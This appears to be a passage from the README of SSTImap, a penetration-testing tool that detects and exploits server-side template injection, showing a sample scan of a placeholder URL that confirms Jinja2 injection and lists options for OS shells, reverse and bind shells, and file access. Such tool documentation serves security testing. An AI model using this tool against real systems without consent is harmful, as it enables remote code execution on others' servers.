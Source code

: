 SSTImap in predetermined mode is very similar to Tplmap. It is capable of detecting and exploiting SSTI vulnerabilities in multiple different templates.

After the exploitation, SSTImap can provide access to code evaluation, OS command execution and file system manipulations.

To check the URL, you can use `-u` argument:

```
$ ./sstimap.py -u https://example.com/page?name=John

                                                
███████╗███████╗████████╗ ▀█▀                                           
██╔════╝██╔════╝╚══██╔══╝═╗ ╔═                                          
███████╗███████╗   ██║    ║ ║                                        
╚════██║╚════██║   ██║    ║ ║                                  
███████║███████║   ██║    ╚╦╝                               
╚══════╝╚══════╝   ╚═╝     │                
███████╗███╗   ███╗██╗   ██╗██╗      █████╗ ████████╗ ██████╗ ██████╗ 
██╔════╝████╗ ████║██║   ██║██║     ██╔══██╗╚══██╔══╝██╔═══██╗██╔══██╗
█████╗  ██╔████╔██║██║   ██║██║     ███████║   ██║   ██║   ██║██████╔╝ 
██╔══╝  ██║╚██╔╝██║██║   ██║██║     ██╔══██║   ██║   ██║   ██║██╔══██╗             
███████╗██║ ╚═╝ ██║╚██████╔╝███████╗██║  ██║   ██║   ╚██████╔╝██║  ██║              
╚══════╝╚═╝     ╚═╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═╝               

[*] Version: 1.0.0
[*] Author: Wrench
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program


[*] Testing if GET parameter 'name' is injectable   
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Rerun SSTImap providing one of the following options:
    --os-shell                   Prompt for an interactive operating system shell
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port
```

[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/